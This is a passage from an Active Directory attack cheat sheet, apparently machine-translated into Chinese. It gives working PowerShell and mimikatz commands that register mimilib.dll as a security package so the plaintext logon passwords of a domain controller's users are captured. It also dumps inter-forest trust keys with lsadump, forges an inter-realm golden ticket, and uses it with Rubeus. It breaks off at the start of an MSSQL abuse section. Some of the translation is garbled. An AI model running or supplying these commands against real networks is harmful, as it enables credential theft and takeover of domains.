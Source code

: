 # 自定义 SSP

*WUT 是 DIS？:我们可以在 SSP 上设置一个自定义 dll，例如 mimikatz 的 mimilib.dll，它将监视并捕获登录用户的明文密码！*

来自 powershell:

```
#Get current Security Package:
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'#Append mimilib:
$packages += "mimilib"#Change the new packages name
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages#ALTERNATIVE:
Invoke-Mimikatz -Command '"misc::memssp"'
```

现在 DC 上的所有登录都记录到-> C:\ Windows \ System32 \ kiwissp . log

# 跨林攻击

# 信任票

*WUT 是 DIS？:如果我们在与另一个林有双向信任关系的域上拥有域管理员权限，我们就可以获得信任密钥并伪造我们自己的跨领域 TGT。*

⚠️:我们的访问权限将仅限于我们的 DA 帐户在另一个林中的配置权限！

使用 Mimikatz:

```
#Dump the trust key
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'#Forge an inter-realm TGT using the Golden Ticket attack
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurDomain> /sid:  
<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:
<PathToSaveTheGoldenTicket>"'
```

->❗门票。kirbi 格式

然后使用跨域 TGT 向外部森林请求 TGS 以获得任何服务，并访问资源！

使用红色:

```
.\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt
```

# 滥用 MSSQL 服务器

*   枚举 MSSQL 实例:`Get-SQLInstanceDomain`
*   作为当前用户检查可访问性:
